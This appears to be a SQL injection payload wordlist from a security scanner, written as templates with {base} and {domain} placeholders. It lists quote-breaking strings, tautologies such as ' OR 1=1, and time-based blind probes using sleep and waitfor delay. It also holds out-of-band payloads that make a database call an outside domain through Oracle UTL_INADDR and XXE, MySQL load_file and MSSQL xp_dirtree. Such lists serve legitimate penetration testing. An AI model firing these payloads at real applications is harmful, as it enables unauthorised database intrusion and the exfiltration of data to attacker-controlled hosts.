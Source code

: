 '
''
;%00
--
-- -
""
;
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
OR 1=1
'
''
\
\\
\'
{base}-0
{base}*1
{base}'||'
{base}'+'
{base}' '
{base}'.'
{base}','
"
""
\"
{base}"||"
{base}"+"
{base}","
{base}/*_*/
{base}/*x*/
{base}|0
'{base}'
"{base}"
({base})
{base}'--
{base}')--
{base}');-- 
{base}'))--
{base}'));-- 
{base}')))-- 
{base}')));-- 
{base}'#
{base}')#
{base}');#
{base}'))#
{base}'));# 
{base}')))# 
{base}"#
{base}")#
{base}");#
' or 'z'='z
1 or 7=7
1 and 7=7
{base} or 7=7
{base} or 7=7-- 
{base} or 7=7#
{base} or 7=7)-- 
{base} or 7=7)#
{base}' or 7=7
{base}' or 7=7-- 
{base}' or 7=7#
{base}' or 'z'='z
{base}' or 'z'='z' or 'a'='b
{base}'/**/or/**/'z'='z
{base}' or username like '%
{base}' or id like '%
{base}' or user like '%
{base}' or @version like '%
{base}' or version() like '%
{base}') or ('x'='x
{base}')) or (('x'='x
{base}' and 7=7
{base}' and 7=7-- 
{base}' and 7=7#
{base}\' and 7=7--
{base}\' and 7=7#
" or "z"="z
{base}" or 7=7
{base}" or 7=7-- 
{base}" or 7=7#
{base}" or "z"="z
{base}" or "z"="z" or "a"="b
{base}"/**/or/**/"z"="z
{base}" or username like "%
{base}" or id like "%
{base}" or user like "%
{base}" or @version like "%
{base}" or version() like "%
{base}") or ("x"="x
{base}")) or (("x"="x
{base}" and 7=7
{base}\" and 7=7--
{base}\" and 7=7#
(select 1)
(select from dual)
(select {base})
`
*/
/*
-->
#>
%27
%22
%5c
À§
Ä§
ï¼
À¢
Ä¢
ï¼
&apos;
Å
ï¹¨
ï¼¼
{base}||UTL_INADDR.get_host_address('{domain}')
{base}'||UTL_INADDR.get_host_address('{domain}')||'
{base}||extractvalue(xmltype('<!DOCTYPE root [<!ENTITY % xxx SYSTEM {base}"http://{domain}/ext1">%xxx;]>'),'/l')
{base}'||extractvalue(xmltype('<!DOCTYPE root [<!ENTITY % xxx SYSTEM {base}"http://{domain}/ext2">%xxx;]>'),'/l')||'
UTL_INADDR.get_host_address(ORACLE_ENCODE_STRING({domain}))
{base} or chr(1)=UTL_INADDR.get_host_address(ORACLE_ENCODE_STRING({domain}))
extractvalue(xmltype(ORACLE_ENCODE_STRING(<!DOCTYPE root [<!ENTITY % xxx SYSTEM "http://{domain}/ext3">%xxx;]>),ORACLE_ENCODE_STRING(/l))
{base} or chr(1)=extractvalue(xmltype(ORACLE_ENCODE_STRING(<!DOCTYPE root [<!ENTITY % xxx SYSTEM "http://{domain}/ext4">%xxx;]>),ORACLE_ENCODE_STRING(/l))
(select load_file('\\\\{domain}\\c'))
{base}'+(select load_file('\\\\{domain}\\e'))+'
{base};EXEC master..xp_dirtree '\\{domain}\s'-- 
1;EXEC master..xp_dirtree '\\{domain}\s'-- 
{base}';EXEC master..xp_dirtree '\\{domain}\s'-- 
{base}'EXEC master..xp_dirtree '\\{domain}\s'-- 
{base}');EXEC master..xp_dirtree '\\{domain}\s'-- 
{base};EXEC master..xp_dirtree "\\{domain}\s"-- 
1;EXEC master..xp_dirtree "\\{domain}\s"-- 
{base}";EXEC master..xp_dirtree "\\{domain}\s"-- 
{base}");EXEC master..xp_dirtree "\\{domain}\s"-- 
{base}"='';EXEC master..xp_dirtree "\\{domain}\s"-- 
{base}"='');EXEC master..xp_dirtree "\\{domain}\s"-- 
{base};DECLARE @x AS VARCHAR(255);select @x=MSSQL_ENCODE_STRING(master..xp_dirtree '\\{domain}\s');EXEC(@x)--
1;DECLARE @x AS VARCHAR(255);select @x=MSSQL_ENCODE_STRING(master..xp_dirtree '\\{domain}\s');EXEC(@x)--
{base}';DECLARE @x AS VARCHAR(255);select @x=MSSQL_ENCODE_STRING(master..xp_dirtree '\\{domain}\s');EXEC(@x)--
{base}');DECLARE @x AS VARCHAR(255);select @x=MSSQL_ENCODE_STRING(master..xp_dirtree '\\{domain}\s');EXEC(@x)--
{base}";DECLARE @x AS VARCHAR(255);select @x=MSSQL_ENCODE_STRING(master..xp_dirtree '\\{domain}\s');EXEC(@x)--
{base}");DECLARE @x AS VARCHAR(255);select @x=MSSQL_ENCODE_STRING(master..xp_dirtree '\\{domain}\s');EXEC(@x)--
{base}"='';DECLARE @x AS VARCHAR(255);select @x=MSSQL_ENCODE_STRING(master..xp_dirtree '\\{domain}\s');EXEC(@x)--
{base}"='');DECLARE @x AS VARCHAR(255);select @x=MSSQL_ENCODE_STRING(master..xp_dirtree '\\{domain}\s');EXEC(@x)--
{base}\';DECLARE @x AS VARCHAR(255);select @x=MSSQL_ENCODE_STRING(master..xp_dirtree '\\{domain}\s');EXEC(@x)--
{base}\";DECLARE @x AS VARCHAR(255);select @x=MSSQL_ENCODE_STRING(master..xp_dirtree '\\{domain}\s');EXEC(@x)--
{base}' waitfor delay '0:0:20'--
{base} waitfor delay '0:0:20'--
',0)waitfor delay'0:0:20'--
{base}'(select*from(select(sleep(20)))a)'
{base}' (select*from(select(sleep(20)))a) '
{base}' and (select*from(select(sleep(20)))a)-- 
{base},(select*from(select(sleep(20)))a)
@@version
{base},@@version
version()
{base},version()
select
insert
as
or
procedure
limit
order by
asc
desc
delete
update
distinct
having
truncate
replace
like
handler
bfilename
to_timestamp_tz
tz_offset
